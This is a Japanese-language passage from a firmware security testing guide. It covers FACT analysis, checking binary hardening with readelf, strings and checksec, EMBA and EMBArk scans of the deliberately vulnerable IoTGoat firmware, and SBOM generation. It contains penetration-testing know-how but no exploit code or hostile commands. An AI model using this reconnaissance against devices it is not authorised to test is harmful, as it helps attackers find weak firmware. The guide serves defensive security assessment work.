ブラウザで [http://127.0.0.1:5000](http://127.0.0.1:5000/) に移動します。



図 : FACT Dashboard

解析のためにファームウェアコンポーネントを FACT にアップロードします。以下のスクリーンショットでは、ルートファイルシステムを有する圧縮された完全なファームウェアがアップロードされ解析されます。



図 : FACT Upload

FACT に与えられたハードウェアリソースに応じて、解析結果は所定時間にスキャン結果とともに表示されます。最小限のリソースしか割り当てられていない場合、このプロセスは何時間もかかることがあります。



図 : FACT IoTGoat



図 : FACT IoTGoat Exploit Mitigation Results

Ghidra, Radare2/Rizin, Cutter, Capstone などのフリーのオープンソースツールを使用して FACT から収集したデータで疑わしいターゲットバイナリを逆アセンブルします。潜在的なリモートコード実行システムコール、文字列、関数リスト、メモリ破損脆弱性についてバイナリを解析し、 system\(\) または同様の関数コールへの外部参照を特定します。以降のステップで使用する潜在的な脆弱性に注意します。

以下のスクリーンショットは Ghidra を使用して逆アセンブルされた "shellback" バイナリを示しています。



図 : Shellback Ghidra Analysis

一般的なバイナリ解析は以下のレビューから構成されています。

* スタックカナリアが有効であるか無効であるか
  * `$ readelf -aW bin/*| grep stack_chk_fail`
  * `$ mips-buildroot-linux-uclibc-objdump -d bin/binary | grep stack_chk_fail`
* 位置独立実行形式 \(Position-independent executable, PIE\) が有効であるか無効であるか
  * PIE が無効であるもの
    * `$ readelf -h <bin> | grep -q 'Type:[[:space:]]*EXEC'`
  * PIE が有効であるもの
    * `$ readelf -h <bin> | grep 'Type:[[:space:]]*DYN'`
  * DSO
    * `$ readelf -d <bin> |  grep -q 'DEBUG'`
  * シンボル
    * `$ readelf --syms <bin>`
    * `$ nm <bin>`
* 認識可能な文字列
  * `-el` は 16 ビット幅 \(例: UTF-16\) のリトルエンディアン文字を指定します。
  * ビッグエンディアンには `-eb` を使用します。
  * 16より長い ASCII 文字列を標準出力に出力します。
  * `-t` フラグはファイル内の文字列のオフセットを返します。
  * `-tx` は16進数形式、 `-to` は8進数、 `-td` は10進数で返します。
  * 16進エディタとの相互参照や、ファイル内のどこに文字列があるかを知りたい場合に便利です。
  * `strings -n5 <bin>`
  * `strings -el <bin>`
  * `strings -n16 <bin>`
  * `strings -tx <bin>`
* 実行不可属性 \(Non-executable, NX\) が有効であるか無効であるか
  * `$ readelf -lW bin/<bin>| grep STACK`

`GNU_STACK 0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x4`

'E' はこのスタックが実行可能であることを示しています。

```text
$ execstack bin/*

X bin/ash

X bin/busybox
```

* 再配置読み取り専用 \(Relocations read-only, RELRO\) 構成
  * Full RELRO:
    * `$ readelf -d binary | grep BIND_NOW`
  * Partial RELRO:
    * `$ readelf -d binary | grep GNU_RELRO`

上記のバイナリプロパティの多くのチェックを自動化するスクリプトが [checksec.sh](https://github.com/slimm609/checksec.sh) です。以下にスクリプトの使用例を二つ示します。

```text
> ./checksec --file=/home/embedos/firmware/_IoTGoat-x86-generic-combined-squashfs.img.extracted/squashfs-root/bin/busybox
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH    Symbols        FORTIFY    Fortified    Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No    0        0    /home/embedos/firmware/_IoTGoat-x86-generic-combined-squashfs.img.extracted/squashfs-root/bin/busybox
```

```text
> ./checksec --file=/home/embedos/firmware/_IoTGoat-x86-generic-combined-squashfs.img.extracted/squashfs-root/usr/bin/shellback
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH    Symbols        FORTIFY    Fortified    Fortifiable  FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   No Symbols      No    0        0    /home/embedos/firmware/_IoTGoat-x86-generic-combined-squashfs.img.extracted/squashfs-root/usr/bin/shellback
```



図 : checksec.sh

Microsoft バイナリ \(EXE & DLL\) の場合、 [PESecurity](https://github.com/NetSPI/PESecurity) を使用して、 ASLR, DEP, SafeSEH, StrongNaming, Authenticode, Control Flow Guard, HighEntropyVA をチェックします。

#### EMBA - Embedded Analyzer

*[EMBA](https://github.com/e-m-b-a/emba)* はペネトレーションテスト担当者のためのコアファームウェア解析ツールとして設計されています。*ファームウェアの抽出* から始まり、*静的解析*、エミュレーションによる *動的解析*、さらに解析のためのウェブベースのレポート生成まで、セキュリティ解析プロセス全体をサポートします。*EMBA* は一つのコマンドで起動し、安全でないバイナリ、古くて期限切れのソフトウェアコンポーネント、潜在的に脆弱なスクリプトやハードコードされたパスワードなど、テスト対象のファームウェアに潜在する弱点や脆弱性を自動的に発見します。

*EMBA* の機能は以下の通りです。

* 高度に最適化された抽出環境でのファームウェア抽出
* 一般的ではないシステムのファームウェア抽出 (例: QNAP ファームウェア, D\'Link 暗号化ファームウェア, EnGenius 暗号化ファームウェア, VMDK ファイル)
* *EMBA* は Linux 対応だけではない - VxWorks などの RTOS システムも解析可
* Docker コンテナの自動抽出と解析
* オペレーティングシステム、CPU アーキテクチャ、サードパーティコンポーネントなどのファームウェアの詳細と関連するバージョン情報の特定
* QEMU を用いたファイルシステムバイナリのユーザーモードエミュレーションによるバージョン詳細の特定
* ファイルシステムバイナリの静的解析によるバージョン詳細の特定
* 600以上のバージョン識別子を持つバージョンデータベース
* 既知の脆弱性とそれに対応する CVE の特定
* [公開されているエクスプロイト](https://www.exploit-db.com/), [Metasploit モジュール](https://www.metasploit.com/) および PoC の特定
* 証明書、秘密鍵、パスワードハッシュの検出
* NX, DEP, ASLR, スタックカナリア, RELRO, FORTIFY\_SOURCE などのバイナリ緩和策の検出
* レガシーバイナリ関数 (例: strcpy) の検出
* **ソフトウェア部品表 \(SBOM\) 生成** - 2024 年の時点で、EMBA は規制遵守と脆弱性管理に不可欠な包括的な SBOM 機能を含むように進化しました。
  * ファームウェア解析のための再現可能で正確な SBOM を生成
  * 従来のパッケージマネージャがないシステムでも動作 \(組み込みデバイスに必須\)
  * 複数のパッケージマネージャ環境を同時にサポート
  * cve-bin-tool との統合で CVE 相関を自動化
  * SBOM VEX \(Vulnerability Exploitability eXchange\) サポートで詳細な脆弱性コンテキストに対応
  * 従来の AppSec ツールでは見過ごされがちな、再コンパイルおよび変更されたライブラリを追跡
  * 米国政府コントラクトにおける 2025 年 CISA の SBOM 最小要素に準拠
* Binwalk v3 \(Rust\) と unblob 統合による抽出パイプラインの強化 \(2024 年 12 月\)
* 並列実行によるパフォーマンスの最大化
* 事前設定済みの Docker イメージが利用可能で簡単にインストール可能
* 自動解析をさらに深堀するためのインタラクティブな HTML レポート
* *[EMBArk](https://github.com/e-m-b-a/embark)* を介したウェブベースのエンタープライズ環境
* その他

##### システム要件:

*EMBA* はバックグラウンドで他の複数のツールを使用しています。必要なシステムリソースは解析するファームウェアに大きく依存します。通常 *EMBA* は以下の環境で非常にスムーズに動作します。
* 現在の Kali Linux が動作している VMware
* RAM: 8GB-16GB 以上
* CPU: 4-8 コア以上
* ストレージ: 30GB-100GB 以上の空きディスク容量

##### クラシックインストール

必要な環境をインストールするには、root 権限でインストールスクリプトを実行する必要があります。
```bash
sudo ./installer.sh -d
```

通常のインストールを実行するには、インストーラで `-d` スイッチを使用する必要があります。これにより必要な依存関係 (例: cve-search) がホストにインストールされ、*EMBA* docker イメージがダウンロードされます。 *最初のインストールにはこれを使用することをお勧めします。*

##### EMBA の使い方

インストール作業完了後、ファームウェアセキュリティ解析にはコマンドラインから *EMBA* を使用することが可能です。*EMBA* を開始する前に、[OWASP IoTGoat firmware](https://github.com/OWASP/IoTGoat) などのテスト用ファームウェアをダウンロードしてください。以下のコマンドは一般的な *EMBA* コマンドを示しています。

```bash
sudo ./emba.sh -f ~/IoTGoat-x86.img.gz -l ~/emba_logs_iotgoat -p ./scan-profiles/default-scan.emba
```
ここで示したコマンドでは以下の基本的なオプションを設定しています。
* -f - ファームウェアファイル
* -l - ログ用ディレクトリ
* -p - 使用するスキャンプロファイル (./scan-profiles にあります)

他にもオプションがあり `./emba.sh -h` で確認できます。

すべてのファームウェアテストの最初のステップは現在のインストールのヘルスチェックです。



ヘルスチェックが正常であれば、解析プロセスは設定されたファームウェアの特定と抽出から開始します。



ファームウェアをテストしている間、すべての結果と現在のステータスがターミナルにライブで表示されます。通常のスキャンはスレッドモード (*`-t` パラメータ*) で実行されるため、この出力は文字化けして読みやすくありません。さらに解析するには、ログディレクトリに生成されたテキストベースのログファイルやウェブレポート (*`-W` パラメータ*) を使用することをお勧めします。
ファームウェアスキャン終了後、*EMBA* はターミナルに結果のサマリーを表示します。



さらに結果はログディレクトリに保存され、コマンドラインやウェブブラウザから解析できます。

```bash
firefox ~/emba_logs_iotgoat/html-report/index.html
```


生成された HTML レポートは自己完結型であり、簡単に共有できます。
さらに、このレポートは完全にインタラクティブであり、集約されたサマリーダッシュボードを介してテストの詳細すべてに到達できます。

詳細は公式の *[EMBA git リポジトリ](https://github.com/e-m-b-a/emba)* をご覧ください。

#### EMBArk - エンタープライズファームウェアスキャン環境

*EMBArk* はファームウェアセキュリティスキャナ *EMBA* 用のウェブベースのエンタープライズインタフェースです。ファームウェアセキュリティアナライザ *[EMBA](https://github.com/e-m-b-a/emba)* をコンテナ化したサービスとして提供し、システムやオペレーティングシステムに関係なくファームウェアスキャンバックエンド *EMBA* へのアクセスを容易にするために開発されました。

さらに *EMBArk* はさまざまなスキャン結果を [一元管理ダッシュボード](https://github.com/e-m-b-a/embark/wiki/Web-interface#main-dashboard) に集約して、データ提供を改善しています。



すべてのスキャンの詳細ページでファームウェアスキャンの詳細レポートにアクセスしたり、さらにテストを開始したり、スキャンログをダウンロードしたりできます。



各ファームウェアテストの主な内容に関する詳細については詳細レポートをご覧ください。



詳細は公式の *[EMBArk git リポジトリ](https://github.com/e-m-b-a/embark)* をご覧ください。

*注意:* *EMBArk* は非常に初期の開発段階にあります。

#### ソフトウェア部品表 \(SBOM\) 生成

ファームウェアのセキュリティ評価は規制遵守とサプライチェーンの透明性をますます要求し、包括的なソフトウェア部品表の生成が不可欠になっています。2025 年の時点において、SBOM は米国政府にソフトウェアを販売する組織に必須であり \(大統領令 14028\)、60% 以上の企業がサイバーセキュリティ実践の一環として SBOM を必要としています。OWASP IoT セキュリティ検証標準 \(ISVS\) の要件 **V1.1.1** では、デバイスが正確な SBOM を維持することを義務付けており、ファームウェアレベルの SBOM 生成はコンプライアンス検証に不可欠となっています。

##### ファームウェアセキュリティにおいて SBOM が重要である理由

従来のアプリケーションセキュリティツールは以下の制限により IoT デバイスや組み込みデバイスに対して不完全な SBOM を作成します。

* 静的にコンパイル、再コンパイル、または元のソースから変更されたライブラリを識別できない
* バイナリのみのファームウェアコンポーネントに存在する脆弱性を可視化できない
* 従来のパッケージマネージャを持たないシステム \(組み込み Linux では一般的\) では依存関係を見落とす
* ブートローダー、RTOS カーネル、プロプライエタリドライバなどのファームウェアコンポーネントを追跡できない

包括的なファームウェア SBOM は以下を可能にします。

* **迅速な脆弱性対応** - 新しい CVE が公開された際、影響を受けるコンポーネントを数週間ではなく数時間で特定する
* **サプライチェーンの透明性** - すべてのサードパーティコンポーネント、オープンソースライブラリ、およびその起源を追跡する
* **コンプライアンス要件** - CISA 2025 の SBOM 最小要素と業界規制を満たす
* **リスク評価** - デプロイメント前にファームウェアの攻撃対象領域を完全に把握する
* **ライセンスコンプライアンス** - すべてのオープンソースライセンス \(GPL, MIT, Apache など\) を特定し、法的問題を防止する

##### EMBA での SBOM の生成

EMBA の SBOM 生成は、ファームウェア解析用に特別に設計された、包括的なコンポーネント追跡機能を提供します。以下の例は標準的な EMBA ファームウェアスキャン時の SBOM 生成を示しています。

```bash
sudo ./emba.sh -f firmware.bin -l ~/emba_logs -p ./scan-profiles/default-scan.emba
```

EMBA は解析プロセスの一環として、以下の SBOM データを自動的に生成します。

* 検出されたすべてのソフトウェアコンポーネントとバージョン情報
* 統合された cve-bin-tool での CVE 相関
* コンポーネントの関連性と依存関係
* 暗愚資産インベントリ \(証明書、鍵\)
* コンポーネントごとのバイナリセキュリティ態勢

SBOM 出力は EMBA の HTML レポートに含まれており、標準形式 \(SPDX, CycloneDX\) でエクスポートして脆弱性管理プラットフォームと統合できます。

##### ファームウェアにおける SBOM ベストプラクティス

ファームウェアセキュリティ評価のために SBOM を生成および維持する場合:

1. **SBOM を早期に生成** - ファームウェアの初期取得 \(ステージ 2\) 時に SBOM を作成し、ベースラインを確立する
2. **継続的に更新** - ファームウェアのバージョンごとに SBOM を再生成し、コンポーネントの変更を追跡する
